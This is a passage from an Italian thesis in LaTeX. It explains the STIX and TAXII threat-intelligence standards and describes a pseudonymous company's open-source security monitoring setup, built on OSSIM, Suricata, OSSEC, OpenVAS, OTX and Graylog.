\subsubsection{Standard STIX e TAXII}

Nel tempo è nata la necessità di definire uno standard strutturale per i dati di threat intelligence, al fine di agevolare la condivisione e l’utilizzo da parte delle piattaforme di sicurezza. Per risolvere questo problema sono stati sviluppati due progetti collaborativi che hanno portato alla nascita di due linguaggi open source: \textbf{STIX} e \textbf{TAXII}.

\newpage

\textbf{STIX}\newline

Structured Threat Information Expression (STIX) è un linguaggio, utilizzato per lo scambio di informazioni sulle minacce informatiche (CTI).\par
STIX consente alle organizzazioni di condividere informazioni di threat intelligence in formato standard e leggibile a livello macchina.\par
STIX nella versione 2.1, definisce 18 oggetti di tipo dato: STIX Data Objects (SDO) e 2 di tipo relazione: STIX Relationship Objects (SRO). \par
Tutti gli oggetti sono completamente opzionali e possono essere utilizzati singolarmente o insieme, a seconda dei casi d’uso.\newline

Le 18 tipologie di SDO previsti da STIX 2.1 sono:

\begin{enumerate}
    \item\textbf{Attack pattern:} Una tipologia di TTP (Tactics, Techniques and Procedures) che descrive le modalità con cui gli attori delle minacce tentano la compromissione dei target;
    \item\textbf{Campain:} Un raggruppamento di comportamenti ostili che descrive un insieme di attività malevole o attacchi che si verificano nel corso di un periodo di tempo contro una specifica categoria di target;
    \item\textbf{Course of action:} Un’azione intrapresa per prevenire o rispondere ad un attacco;
    \item\textbf{Grouping:} Afferma esplicitamente che gli oggetti STIX di riferimento hanno un contesto condiviso, a differenza di uno STIX Bundle (che non trasmette esplicitamente alcun contesto);
    \item\textbf{Identity:} Individui, organizzazioni o gruppi, così come classi di individui, organizzazioni o gruppi;
    \item\textbf{Indicator:} Contiene un pattern che può essere usato per individuare attività cyber sospette o malevole;
    \item\textbf{Infrastructure: } Rappresenta un tipo di TTP e descrive tutti i sistemi, i servizi software e le risorse fisiche o virtuali associate destinate a supportare un determinato scopo (ad esempio, server C2 utilizzati come parte di un attacco, dispositivi o server che fanno parte della difesa, server di database mirati ad un attacco, ecc.)
    \item\textbf{Intrusion set:} Un raggruppamento di comportamenti e risorse ostili con proprietà comuni che si ritiene siano orchestrate da un singolo attore;
    \item\textbf{Location:} Rappresenta una posizione geografica;
    \item\textbf{Malware:} Una tipologia di TTP, conosciuta anche come codice malevolo o software malevolo, usato per compromettere la confidenzialità, l’integrità o la disponibilità di dati o sistemi di una vittima;
    \item\textbf{Malware Analysis:} I metadati e i risultati di una particolare analisi statica o dinamica eseguita su un'istanza o una famiglia di malware;
     \item\textbf{Note:} Trasmette un testo informativo per fornire un ulteriore contesto e/o per fornire un'analisi aggiuntiva non contenuta negli oggetti STIX, negli oggetti della definizione di marcatura o negli oggetti del contenuto della lingua a cui si riferisce la nota;
    \item\textbf{Observed data:} Trasmette informazioni osservate su un sistema o una rete (es. un indirizzo IP);
    \item\textbf{Opinion:} Una valutazione della correttezza delle informazioni in un Oggetto STIX prodotto da un'altra entità;
    \item\textbf{Report:} Collezioni di threat intelligence focalizzate su uno o più argomenti, come descrizione di attori delle minacce, malware o tecniche di attacco, compresi dettagli contestuali;
    \item\textbf{Threat actor:} Individui, gruppi o organizzazioni che si ritiene possano operare con intenti malevoli;
    \item\textbf{Tool:} Software legittimo che può essere utilizzato dagli attori delle minacce per eseguire attacchi;
    \item\textbf{Vulnerability:} Un errore nel software che può essere utilizzato direttamente per ottenere l’accesso a un sistema o una rete.
\end{enumerate}

Le 2 tipologie di SRO previste da STIX 2.1 sono:

\begin{enumerate}
    \item\textbf{Relationship:} Usato per collegare due SDO e per descrivere come sono relazionati l’uno con l’altro;
    \item\textbf{Sighting:} Denota la convinzione che un elemento di Cyber threat intelligence è stato visto (es, indicatore, malware);
\end{enumerate}

   \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.90\columnwidth]{images/3_CTI_img/grafoSTIX.png}
    \end{center}
    \caption{Esempio grafo di oggetti e relazioni STIX}
    \label{fig:Esempio grafo di oggetti e relazioni STIX}
    \end{figure}

\newpage

Il modello dati di STIX può essere pensato come un grafo connesso, dove i nodi sono gli SDO e gli archi sono gli SRO. La funzione degli SRO, che rappresentano appunto gli archi del grafo, è quella di connettere gli SDO in modo che, nel tempo, gli utenti siano in grado di sviluppare e rappresentare una conoscenza più approfondita degli attori delle minacce e delle loro tecniche.\newline



\textbf{TAXII}\newline

TAXII (Trusted Automated eXchange of Indicator Information) è un progetto collaborativo che ha lo scopo di automatizzare lo scambio di informazioni di Cyber Threat Intelligence. Si tratta di un protocollo applicativo che utilizza HTTPS per lo scambio di informazioni.\par

TAXII definisce due servizi primari per supportare una varietà di modelli di condivisione comuni:



\begin{itemize}
    \item\textbf{Collection:} Una Collection è un’interfaccia ad un repository di oggetti di CTI fornite da un server TAXII che permette ad un produttore di ospitare un insieme di dati CTI che possono essere richiesti da consumatori. I client e i server TAXII scambiano informazioni attraverso un modello di tipo richiesta-risposta.
    \item\textbf{Channel:} Mantenuto da un server TAXII, un Channel permette a produttori di fornire dati a diversi consumatori e a consumatori di ricevere dati da più produttori: client TAXII scambiano informazioni con altri client TAXII in un modello pubblicatore-sottoscrittore.
\end{itemize} 

 \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.90\columnwidth]{images/3_CTI_img/modelloTAXII.png}
    \end{center}
    \caption{Modelli di condivisione TAXII}
    \label{fig:Modelli di condivisione TAXII}
    \end{figure}
    
  
    
\subsection{Feedback}


Il passo finale è quando il ciclo dell'intelligence arriva a pieno regime, il che lo rende strettamente legato alla fase iniziale di pianificazione e di direzione. 
Dopo aver ricevuto il prodotto di intelligence finito, chi ha fatto la richiesta iniziale lo rivede e determina se le sue domande hanno avuto una risposta. 
Ciò guida gli obiettivi e le procedure del ciclo di intelligence successivo.

\section{Piattaforme di Threat Intelligence}
\label{sec:Piattaforme di Threat Intelligence}

Le piattaforme di Threat Intelligence, sono in grado di raccogliere dati grezzi provenienti da diverse sorgenti, sia esterne che interne, di aggregarli, arricchirli, raggrupparli, classificarli, normalizzarli, al fine di aiutare gli analisti durante il processo di intelligence, automatizzando le operazioni ripetitive.\par
L’automazione è naturalmente solo parziale, in quanto rimane fondamentale la fase di analisi, che deve essere svolta da analisti esperti con varie specializzazioni, threat analyst, incident analyst, security analyst, fraud analyst, e così via.

\newpage

Tali piattaforme possono essere integrate con strumenti di sicurezza, come: SIEM, IPS,ecc.. permettendo un continuo arricchimento della base di conoscenza di IoC  : 

 \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.80\columnwidth]{images/3_CTI_img/integrazioneTPISIEM.png}
    \end{center}
    \caption{Integrazione TIP con strumenti di sicurezza}
    \label{fig:Integrazione TIP con strumenti di sicurezza}
\end{figure}
    
    Può essere infine utile elencare le principali piattaforme di threat intelligence, limitandoci a quelle open source:
    
    \begin{itemize}
        \item\textbf{MISP:} Sviluppata dalla NATO, aiuta a tracciare ed analizzare malware. Si integra con vari IDS e firewall, con varie fonti (import ed export openIOC), vari formati (XML, CSV) ed offre API RESTful;
        \item\textbf{OpenCTI:} Originariamente sviluppato dall'ANSSI, un'agenzia francese per la sicurezza informatica in collaborazione con il CERT-EU, per migliorare le interazioni di partnership in materia di difesa della sicurezza informatica;
        \item\textbf{Alienvault Open Threat Exchange:} Open Threat Exchange è la piattaforma di Threat Intelligence da Alienvault;
        \item\textbf{IBM X-Force Exchange:} la piattaforma di Threat Intelligence fornita da IBM;
    \end{itemize}
\chapter{Caso di studio: WayneCorp.}
\label{chap:Caso d'uso: WayneCorp.}

Come già anticipato nel capitolo 1, l’emergenza COVID ha portato un elevata attività criminale nel cyber spazio, sfruttando lo smartworking come spiraglio di accesso alle reti aziendali.\par
Durante il periodo di stage ho partecipato alle attività del SOC team di Nais dove ho potuto assistere e contrastare in prima linea le minacce conseguenti alla pandemia.\par
Ho avuto la possibilità di osservare diverse realtà e dimensioni identificandone le criticità e le logiche dietro le quinte, utilizzando diversi software SIEM tra cui QRadar e Ossim.\par
Nel corso del lockdown ricevendo moltissime segnalazioni, soprattutto di tipo phishing, mi sono occupato di allestire e configurare la piattaforma di threat intelligence MISP permettendo un atteggiamento proattivo contro tutte le minacce correlate al Covid (e non solo).\par
In questo capitolo verrà descritta l’architettura di monitoraggio di un cliente in particolare, che per ragioni di riservatezza chiamerò WayneCorp.\par
Inoltre verranno descritti due casi reali di tentativi di attacco, dimostrando l’importanza dell'intelligence durante la detenction, l’analisi e la gestione di eventi di sicurezza.

\section{Architettura soluzione adottata}


La WayneCorp, possiede una network di circa 60 server e circa 600 client, organizzata tramite Active Directory, grazie alla sua dimensione è stato possibile proporre una soluzione completamente opensource.\par

L’architettura comprende i seguenti strumenti: 
\begin{itemize}
    \item\textbf{AlienVault OSSIM:} Utilizzato per il SIEM;
    \item\textbf{Graylog:} Utilizzato per il log management;
    \item\textbf{MISP:} Utilizzato per arricchire la componente di intelligence;
\end{itemize}

\newpage

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/architettura_wayneCorp.png}
    \end{center}
    \caption{Diagramma architettura soluzione di sicurezza per la WayneCorp.}
    \label{fig:Diagramma architettura soluzione di sicurezza per la WayneCorp.}
\end{figure}

\newpage

\section{SIEM: AlienVault OSSIM}


OSSIM è un software SIEM open source, come dice l'acronimo: Open Source Security Information Manager, sviluppato dall’azienda AlienVault (dal 2018 acquisita da AT\&T).\par

l’appliance è la combinazione di diverse tecnologie:

\begin{itemize}
    \item\textbf{IDS:} Suricata per NIDS e Ossec per HIDS;
    \item\textbf{Vulnerability assessment(VA):} Scanner OpenVAS;
    \item\textbf{Threat Intelligence:} AlienVault OTX piattaforma di threat intelligence(OSINT);
\end{itemize}


\subsection{Nework IDS: Suricata}

Come NIDS OSSIM utilizza Suricata, un engine IDPS di carattere principalmente network based.\par
Suricata è un motore IDS che utilizza set di regole per monitorare il traffico di rete e attiva avvisi quando si verificano eventi sospetti. Suricata offre un motore a thread multipli e può quindi eseguire l'analisi del traffico di rete con maggiore velocità ed efficienza.\par
Il progetto, in accordo con la direzione della OISF, è open source e la data di rilascio nella sua prima versione è stata nel corso di dicembre 2009.\par
Le regole Suricata inerenti un determinato argomento di sicurezza vengono organizzate all'interno di file con estensione .rules, prendendo il nome di ruleset. 

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/suricataRuleSet.png}
    \end{center}
    \caption{File .rules contenente la ista di regole Suricata fornite da EmergingThreats}
    \label{fig:File .rules contenente la ista di regole Suricata fornite da EmergingThreats}
\end{figure}

\newpage

All’interno del file rule-file.yaml nella directory /etc/suricata vengono indicati quali ruleset suricata deve utilizzare per effettuare la detection e la conseguente generazione di eventi SIEM su OSSIM.

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/suricataYaml.png}
    \end{center}
    \caption{File rule-file.yaml contenente la lista di ruleset attive}
    \label{fig:File rule-file.yaml contenente la lista di ruleset attive}
\end{figure}

Per la WayneCorp. è stato configurato un port mirroring verso il sensore di OSSIM, permettendo a Suricata di monitorare il netflow e generare eventi se una regola IDS viene attivata.

\subsection{Host IDS: OSSEC}

AlienVault utilizza OSSEC HIDS per il rilevamento delle intrusioni degli host.\par
OSSEC è un host-based intrusion detection system (HIDS) opensource ovvero un software in grado di monitorare il funzionamento di un sistema "dal suo interno", anziché ricorrere all'uso delle interfacce di rete (come nel caso di Suricata).
Tramite gli agent, installati sulle macchine, vengono inviati i log al server OSSEC e tramite un insieme di regole, in caso di anomalie vengono generati degli allarmi.\par
In generale l’agent è in grado di:

\begin{itemize}
    \item Verificare l'integrità dei file memorizzati su disco;
    \item Controllare la presenza di rootkit;
    \item Tenere traccia delle performance;
\end{itemize}

\newpage

Nella directory /var/ossec/etc è presente il file ossec.conf dove vengono definiti tutti i parametri necessari al server OSSEC per effettuare il monitoring degli host, in particolare:

\begin{itemize}
    \item Vengono definiti i path dei log da monitoare sulla macchina:
            \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/ossecAgent.png}
            \end{center}
            \caption{Porzione file di configurazione ossec.conf, definisce dove prelevare i log di apache}
            \label{fig:Porzione file di configurazione ossec.conf, definisce dove prelevare i log di apache}
             \end{figure}
    \item La lista di ruleset di detection:
            \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/ossecRuleset.png}
            \end{center}
            \caption{Porzione file di configurazione ossec.conf, definisce la ruleset di detection da prelevare}
            \label{fig:Porzione file di configurazione ossec.conf, definisce la ruleset  di detection da prelevare}
             \end{figure}
\end{itemize}

\newpage

Nel caso in cui un log attiva una regola, viene generato un allarme e scritto l’output nel file alert.log presente nella directory /var/ossec/logs/alerts:

         \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/alertLog.png}
            \end{center}
            \caption{Porzione file alert.log in /var/ossec/logs/alerts}
            \label{fig:Porzione file alert.log in /var/ossec/logs/alerts}
        \end{figure}
             
             

OSSIM rimane in lettura del file alert.log e tramite un processo di normalizzazione genera il conseguente evento SIEM.\par
Per la WayneCorp. sono stati installati gli agent OSSEC su tutto il parco sever.

\subsection{Vulnerability assessment(VA): OpenVAS}

OSSIM possiede anche un modulo di Vulnerability assessment utilizzando OpenVAS.\par

OpenVAS (Open Vulnerability Assessment System) è l’evoluzione Open Source del framework Nessus, uno dei più importanti security scanner, distribuito come software proprietario.\par
OpenVAS è un software libero distribuito sotto licenza GPL, in grado di effettuare scansioni di un sistema alla ricerca di vulnerabilità, il tool si basa su un database contenente le principali vulnerabilità le quali verranno analizzate ogni qual volta si trovi un servizio in ascolto sul target.\par
Per la WayneCorp. sono stati schedulati scan automatici, con cadenza settimanale, su macchine perimetrali soggette a un maggior rischio.\par
A seguito di uno scan, se viene segnalata la presenza di una  vulnerabilita’, procediamo ad analizzare il traffico della macchina vulnerabile, per verificarne l'integrità.

  \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/openVAsReport.png}
            \end{center}
            \caption{Report VA generato dal modulo OpenVAS}
            \label{fig:Report VA generato dal modulo OpenVAS}
        \end{figure}
        
\newpage

\subsection{CTI: AlienVault Open Threat Exchange (OTX)}

OTX è una piattaforma opensource di threat intelligence utilizzata da OSSIM.
L’elemento di intelligence, presente su OTX, prende il nome “pulse”, il quale fornisce un modello della minaccia, elencando tutti gli artefatti utilizzati e la killchain per compiere un determinato attacco.\par
Le informazioni su OTX, sono di tipo OSINT e possono essere scaricate tramite una subscription.\par Eseguita la subscriptiion OTX oltre a fornire la lista di IoC, fornisce a OSSIM le regole per rilevarne la presenza nella network monitorata: 

  \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/OTXpulse.png}
            \end{center}
            \caption{Pulse OTX : MAR-10310246-1.v1 – ZEBROCY Backdoor}
            \label{fig:Pulse OTX : MAR-10310246-1.v1 – ZEBROCY Backdoor}
        \end{figure}



OSSIM durante l’analisi del netflow se rileva all'interno del pacchetto la presenza di un IoC, appartenente ad un pulse sottoscritto, genera l’allarme e avvia la correlazione degli eventi coinvolti. \par
Per la WayneCorp. sono state eseguite le subscription per i pulse più inerenti al contesto e al tipo di minacce a cui è più soggetto.

\newpage


\section{Log manager: Graylog}


OSSIM a differenza di altri SIEM commerciali non possiede la componente di log manager, per compensare abbiamo configurato Graylog.\par
Graylog è una piattaforma opensource di log management, composto dai seguenti componenti:

\begin{itemize}
    \item\textbf{Elasticsearch:} Memorizza tutti i messagi in ingresso e fornisce un motore di indicizzazione e ricerca dei dati;
    \item\textbf{MongoDB:} Memorizza tutte le configurazioni necessarie per il funzionamento dell'appliance;
    \item\textbf{Graylog server:} Fornisce un interfaccia web per l’analisi e il monitoraggio;
\end{itemize}

  \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.60\columnwidth]{images/4_caso_d'uso_img/glArch.png}
            \end{center}
            \caption{Architettura Graylog}
            \label{fig:Architettura Graylog}
    \end{figure}
        
Graylog server, legge i dati archiviati su Elasticsearch e tramite un'interfaccia web visualizza i dati permettendone l’analisi e il monitoraggio.\par
Per il Graylog della WayneCorp. sono stati configurati in input alcuni oggetti strategici tra cui i firewall perimetrali Cisco ASA e i domain controler Windows.\par
Graylog offre la possibilità di generare stream di dati, sostanzalmente un flusso dati filtrati secondo una certa proprietà.

\newpage

Per la WayneCorp sono stati configurati diversi stream tra cui uno in particolarmente utile che filtra tutti i log di  tipo “traffic denied”(ASA-4-106023) del firewall Cisco ASA, consentendoci di analizzare quali pacchetti sono stati droppati e per quale ragione. Inoltre abbiamo attivato il modulo di Threat Intelligence per lo stream di “traffic denied”, permettendo tramite un mapping di arricchire il log in input.\par

Fondamentalmente nel momento in cui arriva un log, il modulo analizza il message, estrapola gli IP ed esegue delle query a source di threat intelligence:

\begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.90\columnwidth]{images/4_caso_d'uso_img/intelGL.png}
            \end{center}
            \caption{Regola lookup di thret intel sul campo src\_ip del message}
            \label{fig:Regola lookup di thret intel sul campo srcip del message}
    \end{figure}
    
Con questo meccanismo è possibile aggiungere informazioni al log, come la geolocalizzazzione degli IP oppure se gli IP sono presenti in qualche blacklist .\par
Grazie a Graylog e alle informazioni aggiunte tramite le lookup table è stato possibile generare delle dashboard di threat intelligence, in grado di evidenziale quali IP malevoli comunicano più frequentemente con la network e da quale posizione geografica:
    
\begin{figure}[h]
            \begin{center}
